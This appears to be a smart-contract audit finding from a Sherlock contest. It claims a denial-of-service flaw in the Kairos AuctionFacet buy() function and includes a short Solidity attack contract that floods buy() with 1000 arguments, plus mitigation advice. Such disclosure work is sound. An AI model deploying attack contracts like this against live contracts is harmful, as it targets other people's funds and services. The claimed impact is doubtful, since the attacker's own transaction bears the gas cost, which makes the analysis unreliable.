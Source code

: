 oyineth

medium

# Denial-of-service (DoS) vulnerability in the `buy()` function in the AuctionFacet.sol

## Summary

## Vulnerability Detail
The `buy` function in https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/AuctionFacet.sol#L25 could be used to create a large number of BuyArg objects and pass them all to the buy function. Each BuyArg object triggers the execution of the useLoan function which in turn computes the price and transfers tokens. If a large number of BuyArg objects are passed to the buy function, it can cause the execution to consume an excessive amount of gas, potentially leading to out-of-gas errors or blocking the execution for an extended period.

## Impact
When the attack function is called, it creates an array of BuyArg objects with a large number of elements and passes it to the buy function of the auctionFacet contract. This can cause the execution to consume an excessive amount of gas and potentially lead to out-of-gas errors or blocking the execution for an extended period, making the contract vulnerable to a DoS attack.

## Code Snippet
 - Proof of concept
 
 ```solidity
pragma solidity 0.8.18;

import {AuctionFacet} from "./AuctionFacet.sol";
import {BuyArg} from "./DataStructure/Objects.sol";

contract AuctionFacetDos {
    AuctionFacet private auctionFacet;

    constructor(address _auctionFacet) {
        auctionFacet = AuctionFacet(_auctionFacet);
    }

    function attack() external {
        uint256 numArgs = 1000; // set the number of BuyArg objects to create
        BuyArg[] memory args = new BuyArg[](numArgs);
        for (uint256 i = 0; i < numArgs; i++) {
            args[i] = BuyArg(1, address(this)); // create a BuyArg object that will trigger the useLoan function
        }
        auctionFacet.buy(args); // call the buy function with the array of BuyArg objects
    }
}
```

 

## Tool used

Manual Review

## Recommendation
To mitigate the DoS vulnerability in the buy function, you can add a limit to the number of elements that can be passed in the args array. This will limit the amount of gas that can be consumed by the for loop, preventing the attacker from using too much gas and causing the function to fail. You can also add a check to ensure that each BuyArg object passed in the args array is valid, and that it corresponds to a loan that is currently liquidable. Additionally, you can add a circuit breaker mechanism to pause the contract in case of an attack, allowing the administrator to investigate and take appropriate action.
